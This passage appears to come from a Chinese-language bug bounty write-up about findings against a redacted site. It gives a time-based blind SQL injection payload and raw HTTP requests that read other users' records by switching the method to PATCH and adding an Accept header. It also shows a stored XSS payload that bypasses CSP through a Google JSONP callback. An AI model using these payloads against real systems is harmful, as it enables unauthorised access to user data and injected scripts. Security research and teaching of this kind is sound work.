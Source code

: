 我们发现了 2 个带有 1'XOR(SELECT CASE WHEN(1234=1234) THEN SLEEP(7) ELSE 0 END)XOR'Z 载荷的 SQL注入：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaASKxS11kaTX8cH2gI7yFCZcO5v0sYcNiar8CYnCP0PsauyG1xUQ7nuv7j7sdzibicRcLbbNCMUVkMib5libYD6XrMA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaASKxS11kaTX8cH2gI7yFCZcO5v0sYcNhlIo5PjuEQ1MT9E37lfSy4xZ8HjQL4zabAvJCUmh2QjsA4wXAx1bBw/640?wx_fmt=png&from=appmsg "")  
  
  
3. 所有用户信息泄露  
  
  
我们尝试通过更改请求中的数字 ID 来获取用户信息，这类似于许多“猎人”的做法，但却遇到了 403 错误。之后，我们将请求方法切换为PATCH，这也是一些“猎人”常用的策略，但同样无效。不过，我们的关键策略是添加特定的标头。通过添加Accept: application/json，我们成功收到了 200 OK 响应。浏览应用程序时，我们看到了如下请求：  
  

```
GET /users/58158 HTTP/2
Host: www.target.com
Cookie: x
Content-Length: 0
Sec-Ch-Ua:
```

  
我们更改了数字 ID 并收到 403 错误，为了绕过，我们将方法更改为PATCH并添加Accept: application/json  

```
PATCH /users/58158 HTTP/2
Host: www.target.com
Cookie: x
Content-Length: 0
Sec-Ch-Ua: 
Accept: application/json
```

  
结果：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaASKxS11kaTX8cH2gI7yFCZcO5v0sYcNs60BHXYuQ6NdBZuud9zQnfBHGJic0jnZTHY1D8ibXNKfyPkPRia1hiccVQ/640?wx_fmt=png&from=appmsg "")  
  
  
4. 存储型XSS  
  
  
编辑器中使用文本的任何地方都是测试XSS的有趣环境。但是，在大多数情况下，它会使用正则表达式过滤掉危险的标签，所以我们不应该灰心丧气，继续测试。当我们浏览应用程序时，我们发现了 posts 字段。在 posts 字段中，你可以像 Twitter 一样写注释。但是他们有 CSP，我们必须绕过它。我们使用了这个payload来绕过 CSP：  
  

```
xss<script/src=&#34;https://www&#x2e;google&#x2e;com/complete/search?client=chrome&q=hello&callback=alert#1&#34;> &#34;></script>
```

  
原理：利用Google JSONP回调执行弹窗，规避CSP限制。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaASKxS11kaTX8cH2gI7yFCZcO5v0sYcNXaPOACIibLuia9xzEh43uDkibweFvp4j3KAbwyVyRCNsIhZ9AI3Kbu03A/640?wx_fmt=png&from=appmsg "")  
  
  
5. 访问员工域名导致所有交易数据泄露  
  